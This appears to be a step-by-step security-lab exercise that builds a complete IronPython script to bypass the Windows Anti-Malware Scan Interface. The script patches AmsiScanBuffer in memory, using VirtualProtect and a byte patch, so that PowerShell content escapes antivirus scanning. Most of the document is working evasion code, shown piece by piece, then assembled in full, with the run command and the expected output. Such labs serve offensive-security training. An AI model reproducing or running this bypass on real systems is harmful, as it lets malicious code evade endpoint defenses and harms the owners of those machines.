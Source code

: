 # Exercise 7: AMSI Bypass with IronPython
This exercise aims to build a script using IronPython to bypass the Anti-Malware Scan Interface (AMSI). AMSI is an open interface available on Windows 10 for applications to request, at runtime, a synchronous scan of a memory buffer by an installed antivirus or security solution. The script patches a specific method of the AMSI's DLL loaded in memory, therefore allowing malicious code to execute without detection.

The script utilizes functionalities provided by the ctypes library in IronPython, which provides C compatible data types and allows to call functions in DLLs/shared libraries.

1. First lets test that AMSI is working on the machine. Type `amsicontext` into the existing terminal
2. You should see a maliware blocked error that looks like this

```powershell
At line:1 char:1
+ amsicontext
+ ~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

3. Now let's write the bypass, by first creating another python file called powershell_amsi_bypass.py similiar to Exercise 5
4. Start by importing the required modules. `clr`` allows IronPython to interface with .NET and System provides access to core .NET functionalities. os is a Python library for interacting with the Operating System.

```python
import clr
import System
import os
```

5. Load the System.Management.Automation .NET library. System.Management.Automation provides access to the PowerShell runtime. Runspaces enables creating and managing PowerShell runspaces, which are containers that host PowerShell pipelines.

```python
clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
```

6. Import additional required modules and functions. These imports include both Python and .NET classes and functions used throughout the script. Notable ones are ctypes (provides C compatible data types in Python), IntPtr and UInt32 (.NET data types), and Marshal (.NET class for marshaling data between managed and unmanaged code).

```python
import clrtype
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet
```

7. Define the bypass function. This function starts by loading amsi.dll into the application's memory space using LoadLibrary.

```python
def bypass():
    windll.LoadLibrary("amsi.dll")
```

8. Get the handle of amsi.dll. Here, the script retrieves a module handle for amsi.dll, which is necessary to later get the address of the function to patch.

```python
windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
windll.kernel32.GetModuleHandleW.restype = c_void_p
handle = windll.kernel32.GetModuleHandleW('amsi.dll')
```

9. Retrieve the address of the AmsiScanBuffer function within amsi.dll. GetProcAddress retrieves the address of the AmsiScanBuffer function in memory, which is the function we will patch to bypass AMSI.
```python
windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
windll.kernel32.GetProcAddress.restype = c_void_p
BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
```

10. Change the memory protection of the AmsiScanBuffer function to PAGE_EXECUTE_READWRITE (0x40). VirtualProtect changes the protection on a region of committed pages in the virtual address space of the calling process.

```python
BufferAddress = IntPtr(BufferAddress)
Size = System.UInt32(0x05)
ProtectFlag = System.UInt32(0x40)
OldProtectFlag = Marshal.AllocHGlobal(0)
virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
```

11. Write a patch to the start of the AmsiScanBuffer function. The script patches AmsiScanBuffer to always return S_OK, causing AMSI to believe the scanned content is safe.

```python
patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
Marshal.Copy(patch, 0, BufferAddress, 6)
```

12. Define the main function to run the bypass and execute a PowerShell script.After bypassing AMSI, the script opens a PowerShell runspace, executes the PowerShell command 'amsicontext', and prints the output.

```python
def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()
```

13. Run the main function if the script is being run as a standalone program. The if __name__ == '__main__': Python idiom is used to ensure the main function is only run when the script is executed directly (not imported as a module).

```python
if __name__ == '__main__':
    main()
```

14. The script should look like the code below.

```python
import clr
import System
import os

clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet

def bypass():
    windll.LoadLibrary("amsi.dll")
    windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
    windll.kernel32.GetModuleHandleW.restype = c_void_p
    handle = windll.kernel32.GetModuleHandleW('amsi.dll')
    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
    BufferAddress = IntPtr(BufferAddress)
    Size = System.UInt32(0x05)
    ProtectFlag = System.UInt32(0x40)
    OldProtectFlag = Marshal.AllocHGlobal(0)
    virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
    patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
    Marshal.Copy(patch, 0, BufferAddress, 6)

def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()

if __name__ == '__main__':
    main()
```

15. Execute the IronPython code using the following command in the terminal

```
.\ipy.exe powershell_amsi_bypass.py
```

16. If successful, you should see the output below

```powershell
amsicontext
```